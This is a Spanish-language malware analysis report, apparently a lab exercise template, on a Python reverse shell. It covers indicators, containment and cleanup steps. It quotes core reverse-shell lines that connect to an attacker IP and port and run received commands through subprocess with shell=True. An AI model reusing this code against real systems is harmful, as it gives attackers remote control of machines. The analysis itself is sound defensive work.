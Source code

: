 # 🛡️ Análisis y Manejo de Malware

## 1. 📌 Descripción del Caso

**Nombre o identificación del malware:** Reverse shell en Python

**Fecha de detección:**  
29/04/2025

**Fuente o vector de infección:**  troyano.py

**Resumen del comportamiento sospechoso:**  
- Conexiones salientes no autorizadas  
- Creación de procesos desconocidos  
- Alteración de archivos del sistema  
- Persistencia en el sistema  

---

## 2. 🔍 Identificación del Malware

### 2.1 Análisis Estático

**Tipo de archivo analizado:** `.py`, `.exe`, `.dll`, etc.  
**Herramientas utilizadas:**  
- `strings`  
- `file`  

**Indicadores sospechosos encontrados:**  
- IP remota: `192.168.0.23`  
- Puerto: `4444`  
- Uso de `socket`, `subprocess`, `os`  
- Funcionalidad de reverse shell  

```python
s.connect((attacker_ip, attacker_port))
command = s.recv(1024)
output = subprocess.check_output(command, shell=True)
```
![[Pasted image 20250429143653.png]]
### 2.2 Análisis Dinámico

**Entorno de análisis:** Máquina virtual con Windows 10 / Linux

**Comportamiento durante la ejecución:**
- Establece conexión saliente TCP
- Ejecuta comandos recibidos
- Oculta actividad o borra rastros

**Logs y capturas relevantes:**
-  Captura de tráfico de red
-  Registro de procesos creados
-  Claves de registro modificadas (Windows)

---

## 3. 🧭 Clasificación del Malware

**Tipo:**
-  Reverse Shell
-  Ransomware
-  Troyano ____________

**Nivel de severidad:** Alto

**Impacto potencial:**
- Pérdida de confidencialidad
- Control remoto del sistema
- Compromiso total de la máquina
![[Pasted image 20250429141305.png]]

---

## 4. 🛰️ Detección y Contención

### 4.1 Indicadores de Compromiso (IoCs)

- Archivo sospechoso: `troyan.py`
- Dirección IP remota: `192.168.40.41`
- Hash SHA256: 244f3f88d49c8097fcdd062f02e0955fd6660fff6c4704cc0ea006527f0d1bcf

### 4.2 Herramientas de detección

-  VirusTotal
-  Wireshark
-  nmap
![[Pasted image 20250429152119.png]]

---

## 5. 🧹 Limpieza y Remediación

**Pasos realizados:**
1. Eliminar archivo malicioso
2. Matar procesos activos
3. Revocar persistencia (inicio automático, claves de registro, servicios)
4. Cambiar credenciales comprometidas
5. Aislar el host de la red
6. Reinstalación del sistema (si es necesario)

**Estado del sistema tras limpieza:**
-  Limpio
-  En observación
-  Requiere formateo

---

## 6. 📝 Conclusiones

- El archivo analizado era un reverse shell que permitía control remoto del sistema afectado.
- Se identificó el comportamiento, se capturaron indicadores y se eliminaron los vectores de persistencia.
- Se recomienda mejorar las medidas de seguridad preventiva, como detección temprana, segmentación de red y entrenamiento en phishing.

---